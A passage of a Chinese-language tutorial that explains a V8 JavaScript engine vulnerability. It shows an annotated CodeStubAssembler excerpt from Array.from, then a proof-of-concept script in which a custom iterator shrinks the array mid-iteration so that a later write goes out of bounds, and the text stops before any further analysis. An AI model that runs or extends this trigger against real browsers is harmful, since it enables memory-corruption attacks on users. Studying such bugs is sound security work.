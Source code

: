 ```
        ThrowTypeError(context, MessageTemplate::kCalledNonCallable, map_function);

        // no_error分支
        BIND(&no_error);
    }

    // 创建是否可迭代分支
    Label iterable(this), not_iterable(this), finished(this), if_exception(this);

    TNode<Object> this_arg = args.GetOptionalArgumentValue(2);
    TNode<Object> items = args.GetOptionalArgumentValue(0);
    // The spec doesn't require ToObject to be called directly on the iterable
    // branch, but it's part of GetMethod that is in the spec.
    TNode<JSReceiver> array_like = ToObject(context, items);

    TVARIABLE(Object, array);
    TVARIABLE(Number, length);
```

这段代码为一种叫作`CodeStubAssembler`的DSL，V8官方博客有对这种语言的使用介绍
- https://v8.dev/blog/csa

我们可以读一下这段代码，其实挺简单的，注释我都写好了

在理解了`CodeStubAssembler`大概的语法之后

我们可以开始讲今天的漏洞

首先来看Poc，先创建了一个数组，然后对这个数组做`Array.from()`调用，里面重新定义了迭代函数
```
let oobArray = [];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
    {
        counter : 0,
        max : 1024 * 1024 * 8,
        next() {
            let result = this.counter++;
            if (this.counter == this.max) {
                oobArray.length = 0;
                return {done: true};
            } else {
                return {value: result, done: false};
            }
        }
    }
) });
oobArray[oobArray.length - 1] = 0x41414141;
```

我们来看这个函数的定义
- https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Array/from
